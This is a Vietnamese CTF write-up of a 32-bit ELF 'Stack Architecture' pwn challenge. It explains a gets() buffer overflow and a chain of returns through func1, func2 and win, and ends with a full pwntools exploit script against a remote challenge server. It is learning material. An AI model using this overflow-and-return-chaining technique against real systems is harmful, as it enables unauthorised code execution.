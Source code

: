 # **Stack Architecture - PWN CTF Challenge**

### ***Exploitation***
---

Đầu tiên ta kiểm tra được đây là file ELF 32-bit, và chỉ bật cờ `NX` &rarr; Ta không thể chèn shellcode nhưng có thể buffer overflow. Chạy thử chương trình không có gì đặc biệt khi nó cho nhập input xong rồi thoát.

![checkfile](images/checkfile.png)

Kiểm tra hàm main bằng IDA, có thể thấy hàm `gets(s)` đã gây ra lỗi buffer overflow. Mảng kí tự `s` nhập vào được khai báo 80 kí tự nằm ở vị trí `ebp - 0x54`.

![main](images/main.png)

Chương trình này khá đơn giản nên mình có thể xác định được số bytes cần input để chèn return address là 80 bytes (buffer `s`) + 4 bytes (`ebp`) + 4 bytes (`return address`). 

Đọc hàm `win` thì để gọi được shell bằng `system(command)` với `command= *]di*nc + 5 = /bin/sh` thì 3 biến `check2 == check3  == check4 == 1`. Như vậy chúng ta không thể return ngay về hàm win mà phải đi tìm các hàm làm thay đổi giá trị `check2`, `check3` và `check4`.

![win](images/win.png)

Đầu tiên là hàm `func1(int)`, tại đây xuất hiện biến `check2` và `check3`. Mảng kí tự s1[80] bằng `I\'m sorry, don\'t leave me, I want you here with me ~~` thì `check2=1`. Và để `check3=1` thì cần gọi `func1(int)` 2 lần với tham số đầu vào `int a1` phải bằng `0x20010508` (do phải set `check2=1` trước).  

![func1](images/func1.png)

Ở hàm `func2()`, để `check4=1` thì cần `check3==1` và có biến local `v1` nằm ở `ebp-0x4` trong stack frame bằng `0x8052001`. 

![func2](images/func2.png)

Như vậy sau khi gọi hàm `func1()` 2 lần và `func2()` ta sẽ thỏa mãn điều kiện ở hàm `win()` và gọi được shell. Vấn đề bây giờ là xây dựng stack để chèn được các tham số cũng như biến local thỏa những điều kiện trên.

Vì hàm `func1()` sẽ được gọi sau hàm `main()` nên `ebp(func1) = ebp + 0x4` &rarr; `s1 = I\'m sorry, don\'t leave me, I want you here with me ~~` sẽ nằm tại `ebp(func1) - 0x54 = ebp - 0x50`. Hơn nữa ở đây người ta dùng `strcmp()` để so sánh nên cần thêm một kí tự `\x00` vào chuỗi `s1`.

Tại `ebp+0x4` và `ebp+0x8` sẽ là địa chỉ của `func1()` (gọi 2 lần). Tại `ebp+0xc` (chính là arg cho func1() lần 1) sẽ là `pop; ret` để tránh nó return về arg &rarr; lỗi chương trình. Ở đây ta sẽ dùng `pop ebp; ret`. Tại `ebp + 0x10` (chính là arg cho func1() lần 1) sẽ là `0x20010508`.

Tiếp theo ta sẽ phải gọi 2 lần `func2()` vì với hàm `func2() lần 1` nếu lấy `v1` ở `ebp - 0x4` lúc đó sẽ trùng với arg của `func1() lần 2`. Mặt khác giá trị tại `ebp` luôn giữ nguyên sau lệnh `ret` nên sau khi qua `func2() lần 1`, `v1` ở `ebp - 0x4` lúc này sẽ là `ebp gốc` (ebp của hàm `main` ban đầu) &rarr; gán `ebp gốc` bằng `0x08052001`. Việc đơn giản còn lại là chèn địa chỉ của hàm `win` tại vị trí tiếp theo.

Ta có stack như sau:

![stack](images/stack.png)

Từ đó thực hiện đi tìm các address cần thiết cho mã khai thác.

![address](images/address.png)

![pop2](images/pop2.jpg)

Cuối cùng ta có đoạn mã sau tại [stack.py](stack.py)

```js
from pwn import *

r = remote('45.122.249.68', 10018)

func1 = 0x804929e
func1_argv = 0x20010508

func2 = 0x80492fe
func2_var = 0x08052001

win = 0x8049216
pop_ret = 0x08049022


payload = b'a'*4 + b'I\'m sorry, don\'t leave me, I want you here with me ~~' + b'\x00' + b'a'*26
payload += p32(func2_var)
payload += p32(func1)*2
payload += p32(pop_ret)
payload += p32(func1_argv)
payload += p32(func2)*2
payload += p32(win)

r.sendline(payload)
r.interactive()
```
Thực thi và ta đã có flag!!!!!!!!!!!!!!

![flag](images/flag.png)

> **FLAG: Wanna.One{neu_ban_chinh_phuc_duoc_chinh_minh_ban_co_the_chinh_phuc_duoc_the_gioi}**






